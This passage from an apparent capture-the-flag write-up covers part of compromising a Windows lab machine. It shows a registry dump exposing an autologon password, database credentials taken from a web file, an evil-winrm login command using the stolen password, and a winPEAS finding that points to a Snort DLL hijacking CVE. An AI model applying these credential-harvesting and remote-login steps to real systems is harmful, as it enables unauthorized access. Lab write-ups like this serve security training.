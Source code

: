 ```markdown
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    ShellAppRuntime    REG_SZ    ShellAppRuntime.exe
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x1ab910533
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    7y4Z4^*y9Zzj
    AutoLogonSID    REG_SZ    S-1-5-21-916175351-3772503854-3498620144-1103
    LastUsedUsername    REG_SZ    jdoe

HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon\GPExtensions
HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon\VolatileUserMgrKey
```
Additionally, the MySQL credentials are found in the file `c:\inetpub\internal\employees\login.php`
```markdown
db_master
0$TBO7H8s12yh&
```
Use `jdoe:7y4Z4^*y9Zzj` credential to login with `evil-winrm`, and retrieve the user flag.
```markdown
evil-winrm -i $target -u jdoe -p '7y4Z4^*y9Zzj'
```

### SYSTEM
Start from the `evil-winrm` shell and run `winpeas64.exe`. The tool reports a possible DLL hijacking issue related to the Snort service.

![Untitled15](https://github.com/g1vi/AllTheWriteUps/assets/120142960/29b87de3-8633-4454-adcb-a78c8f744465)

Searching for Snort vulnerabilities we find a CVE and an associated POC here:<br>
https://www.cvedetails.com/cve/CVE-2016-1417<br>
https://packetstormsecurity.com/files/138915/Snort-2.9.7.0-WIN32-DLL-Hijacking.html<br>
<br>
According to them, to exploit the vulnerability we are supposed to place in a remote shared folder a malicious `tcapi.dll` along with a `.pcap` capture file in the same folder. Then run Snort and let the application load the malicious DLL. Unfortunately, this procedure was tested and did not work.<br>
<br>
 Enumerating further in the Snort folder, we find a configuration file at  `bin\snort.conf` containing information about pre-processor libraries.
 